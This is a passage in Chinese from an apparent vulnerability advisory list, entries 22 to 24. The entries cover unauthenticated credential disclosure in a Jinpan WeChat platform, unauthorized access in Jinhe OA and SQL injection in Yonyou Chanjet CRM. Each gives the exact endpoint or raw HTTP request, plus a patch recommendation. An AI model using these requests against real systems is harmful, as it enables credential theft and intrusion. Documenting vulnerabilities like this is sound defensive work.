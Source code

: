 **漏洞描述：** 金盘微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限。

**漏洞等级：**高

**漏洞类型：**0day/1day/nday

**影响版本：**

**漏洞详情：**

登录页面

![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_589940_0WY6TAIHHrR_ppHG_1691893082?w=1200&h=498&type=image/png)



```
/admin/weichatcfg/getsysteminfo
```





![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_787510_HSQnuYZtD6eXAwIQ_1691893652?w=1104&h=365&type=image/png)

**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             23.     **金和OA未授权访问漏洞**

**漏洞描述：**金和OA存在未授权访问漏洞。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**

**漏洞详情：**金和OA存在未授权访问漏洞

**GET /C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1 HTTP/1.1****Host: XXX.XXX.XXX.XXX****User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36****Connection: close****Content-Length: 0****Content-Type: text/plain****Accept-Encoding: gzip**

![img](https://wdcdn.qpic.cn/MTY4ODg1MDEwMDE2MzQwNA_173625_ZT0SK0gWtTLcebwj_1691897395?w=1745&h=616&type=image/png)

**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             24.     **用友畅捷通CRM SQL注入漏洞**

**漏洞描述：**金用友畅捷通CRM存在SQL注入漏。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**

**漏洞详情：**用友畅捷CRM create_site.php处存在SQL时间盲注。

**http://xxxx****/WebSer~1/create_site.php?site_id=1**

![img](https://wdcdn.qpic.cn/MTY4ODg1MDEwMDE2MzQwNA_948252_fFnbTCiiaDyNr7Y8_1691898134?w=1904&h=935&type=image/png)

![img](https://wdcdn.qpic.cn/MTY4ODg1MDEwMDE2MzQwNA_192197_5sqew1tkoEbD9Kbb_1691898249?w=1775&h=709&type=image/png)

**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。